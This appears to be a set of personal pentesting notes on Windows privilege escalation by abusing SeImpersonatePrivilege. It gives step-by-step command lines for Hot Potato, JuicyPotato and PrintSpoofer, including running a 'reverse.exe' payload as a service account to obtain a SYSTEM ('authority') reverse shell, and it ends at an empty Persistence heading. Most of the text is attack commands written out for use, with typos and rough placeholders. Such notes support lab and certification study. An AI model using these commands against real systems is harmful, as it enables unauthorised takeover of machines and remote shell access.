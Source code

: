 
> .\potato.exe -ip(linuxip) -cmd "malicious file to execute as authority" -enable_http server true -enable_defender true -enable_spoof true -enable_exhaust true

run a listener and get a reverse shell


https://foxglovesecurity.com/2016/01/16/hot-potato/

### SeImpersonatePrivilege (juicy potato,printspoofer,roguepotato,sweetpotato)

service accounts are accounts which are used for specific purposes and granted administrator access sometimes

If we have access to local services account on windows then we can get authority shell

1. First Check if the service account has seimpersonate token enabled

2. Now run the exploit

> .\JuicyPotato.exe -l 1337 -p malicious file -t * -c {clsi number for windows version}

               or
> PrintSpoofer.exe -i -c cmd               

3.we will get the shell as authority


### PrintSpoofer

If this is a b=vulneribility then we can simply exploit using printspoofer binary



we need a service account running so we need to simulate this to get a service account shell through rdp if service shell is not running by default

we need to loginas admin and run cmd as adminsitrator and then type following command to get a service shell up and running

After this we can follow the real attack steps

C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe

1. we need a service account cmd to do this attack. If we have a local service or any service account running
type the following command below in service account shell

> C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i

           OR

> PrintSpoofer.exe -i -c cmd   
           
# ####





# Persistence
